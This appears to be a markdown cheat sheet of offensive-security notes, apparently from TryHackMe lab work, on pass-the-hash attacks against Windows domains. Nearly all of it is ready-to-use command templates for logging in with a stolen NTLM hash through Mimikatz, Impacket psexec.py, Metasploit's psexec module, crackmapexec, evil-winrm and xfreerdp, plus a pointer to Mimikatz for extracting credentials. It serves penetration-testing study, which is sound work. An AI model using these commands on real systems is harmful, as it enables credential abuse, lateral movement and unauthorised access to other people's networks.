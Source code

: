 # Pass The Hash
- As [[NetNTLM]] is inherently flawed, the password hash can be treated as a password.
- NTLM hash can be used to directly authenticate to a domain/service
- [[Cheatsheet/Mimikatz]] for extracting Credentials
### Mimikatz
```powershell
sekurlsa::pth /user:user.name /domain:za.tryhackme.com /ntlm:<hash> /run:<command>
```
### Impacket's PsExec.py
```bash
python psexec.py -hashes <hash> domain/username@<server/ip>
```
### Metasploit PsExec module
```
exploit/windows/smb/psexec
```
### Crackmapexec
```bash
crackmapexec smb <server/IP> -u username -H <hash>
```
### evil-winrm
```bash
evil-winrm -i <server/IP> -u <username> -H <hash>
```
### xfreerdp
```bash
xfreerdp /v:<server/IP> /u:<domain\username> /pth:<hash> 
```